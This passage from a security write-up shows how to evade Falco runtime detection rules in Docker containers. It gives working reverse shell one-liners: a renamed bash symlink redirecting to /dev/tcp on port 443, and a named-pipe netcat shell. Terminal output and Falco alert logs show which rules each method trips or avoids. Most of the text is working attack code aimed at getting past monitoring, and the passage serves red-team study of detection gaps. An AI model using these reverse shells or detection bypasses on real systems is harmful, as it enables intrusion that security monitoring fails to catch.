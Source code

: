 Getting rid of the first event is easy with the symlink to bash:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@3a03766368a0:/# which bash
/bin/bash
root@3a03766368a0:/# ln -s /bin/bash /tmp/gbash
root@3a03766368a0:/# /tmp/gbash -c "/tmp/gbash -i >& /dev/tcp/172.17.0.1/443 0>&1"
-----
[Host]
$ sudo nc -nlvp 443
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:48048.
root@3a03766368a0:/#
-----
[Falco]
14:44:37.439154946: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0 process=gbash parent=gbash cmdline=gbash -c /tmp/gbash -i >& /dev/tcp/172.17.0.1/443 0>&1 terminal=34816 container_id=3a03766368a0 image=debian fd.name=172.17.0.2:48048->172.17.0.1:443 fd.num=1 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0
14:44:37.439157224: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0 process=gbash parent=gbash cmdline=gbash -c /tmp/gbash -i >& /dev/tcp/172.17.0.1/443 0>&1 terminal=34816 container_id=3a03766368a0 image=debian fd.name=172.17.0.2:48048->172.17.0.1:443 fd.num=1 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0
```
Still, we have to deal two(?) spurious events. Taking a closer look at rule **Redirect STDOUT/STDIN to Network Connection in Container**, we don't see dependencies on _proc.name_ or _fd.name_ and no easy bypass apparent. The rule intercepts dup syscall that duplicates a file descriptor, in this case any of the stdin / stdout / stderr triad. The first thought is swapping dup call with one of the system calls - dup2 or dup3 - that appear to have very similar functionality according to Linux man pages[^1]. However, that would mean duplicating bash functionality or somehow recompiling it with a different syscall.

Instead, we can abandon dup altogether and find a new way to initiate a reverse shell. What about payloads that redirect shell to netcat through pipe creation?
```
[Container]
docker run --rm -it sshayb/fuber:latest
root@eabe8cffc8c8:/tmp# mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | /bin/nc 172.17.0.1 443 1>/tmp/backpipe
-----
[Host]
sudo nc -nlvp 443
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:43588.
hostname
eabe8cffc8c8
-----
[Falco]
12:47:37.884716967: Notice Network tool launched in container (user=root user_loginuid=-1 command=nc 172.17.0.1 443 parent_process=gbash container_id=eabe8cffc8c8 container_name=vigorous_hawking image=sshayb/fuber:latest) k8s.ns=<NA> k8s.pod=<NA> container=eabe8cffc8c8 k8s.ns=<NA> k8s.pod=<NA> container=eabe8cffc8c8
```
Great. This does not trigger "Redirect stdout/stdin" rule, and besides, getting rid of the "Network tool launched" is easy with the previous bypass techniques.


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS